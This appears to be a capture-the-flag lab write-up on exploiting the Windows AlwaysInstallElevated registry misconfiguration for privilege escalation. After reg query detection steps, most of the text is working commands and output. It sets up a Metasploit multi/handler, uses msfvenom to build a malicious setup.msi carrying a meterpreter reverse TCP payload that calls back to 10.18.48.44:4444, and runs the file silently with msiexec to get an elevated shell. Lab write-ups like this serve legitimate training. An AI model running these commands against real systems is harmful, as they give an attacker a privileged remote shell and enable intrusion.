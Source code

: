 # AlwaysInstallElevated Exploit

AlwaysInstallElevated is a registry key entry in the **`HKLM\Software\Policies\Microsoft\Windows\Installer`** and **`HKCU\Software\Policies\Microsoft\Windows\Installer`** registry keys that allows any user to install an .msi file with elevated privileges.

## Detection

---

Open command prompt and type: **`reg query HKLM\Software\Policies\Microsoft\Windows\Installer`**
From the output, notice that “`AlwaysInstallElevated`” value is 1

```bash
**reg query HKLM\Software\Policies\Microsoft\Windows\Installer**
```

![always](images/always.png)

In command prompt type: **`reg query HKCU\Software\Policies\Microsoft\Windows\Installer`**
From the output, notice that “`AlwaysInstallElevated`” value is 1

```bash
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

![always2](images/always2.png)

## Exploitation

Start a multi-handler reverse shell

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.48.44
LHOST => 10.18.48.44
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.48.44:4444
```

Generate `msfvenom` exploit

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.18.48.44 lport=4444 -f msi -o setup.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: setup.msi
```

Copy the generated file, `setup.msi`, to the target

![transfer](images/transfer.png)

Place ‘setup.msi’ in ‘`C:\Temp`’

Run the following command:

```bash
msiexec /quiet /qn /i C:\Temp\setup.msi
```

![execute](images/execute.png)

Receive reverse shell

![shell](images/shell.png)
